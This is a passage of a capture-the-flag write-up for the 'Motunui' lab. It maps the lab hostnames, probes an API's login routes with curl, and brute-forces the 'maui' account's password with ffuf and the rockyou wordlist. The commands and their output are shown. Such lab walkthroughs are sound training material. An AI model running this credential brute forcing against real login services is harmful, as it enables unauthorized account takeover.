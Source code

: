 ```bash

#### Response (401)
```js
{
	"error": "you are unauthorised to view this resource"
}
```


<img width="1275" height="765" alt="image" src="https://github.com/user-attachments/assets/f428e4b5-db6e-44ac-bfa4-926ce29f2e34" />

<br>
<br>
<br>
<h1 align="center">Static Host Mapping<a id='8'></a></h1>

```bash
xx.xxx.xxx.x d3v3lopm3nt.motunui.thm motonui.thm api.motonui.thm
```

<br>
<h1 align="center">Weaponization<a id='9'></a></h1>
<p align="center">api.motonui.thm:3000/v2/login</p>

```bash
:~/Motunui# curl http://api.motunui.thm:3000/v2/login
{"error":"method not allowed"}
```

```bash
:~/Motunui# curl http://api.motunui.thm:3000/v1/login
{"message":"please get maui to update these routes"}
```

```bash
:~/Motunui# curl -X POST http://api.motunui.thm:3000/v2/login -d '{"username":"maui","password":"password"}'
{"error":"invalid credentials"}
```

<br>
<p align="center">Brute Forcing the JSON application<br>maui:island</p>

```bash
:~/Motunui# ffuf -u http://api.motunui.thm:3000/v2/login -w /usr/share/wordlists/rockyou.txt -X POST -H 'Content-Type: application/json' -d '{"username":"maui","password":"FUZZ"}' -fs 31
...
island                  [Status: 200, Size: 19, Words: 1, Lines: 1]
```

<img width="1242" height="502" alt="image" src="https://github.com/user-attachments/assets/f13ac44f-bede-4943-a48d-aee5c7a0a2b3" />

<br>
<br>
<br>

```bash
:~/Motunui# curl http://api.motunui.thm:3000/v2/login -X POST -H 'Content-Type: application/json' -d '{"username":"maui","password":"island"}'
```
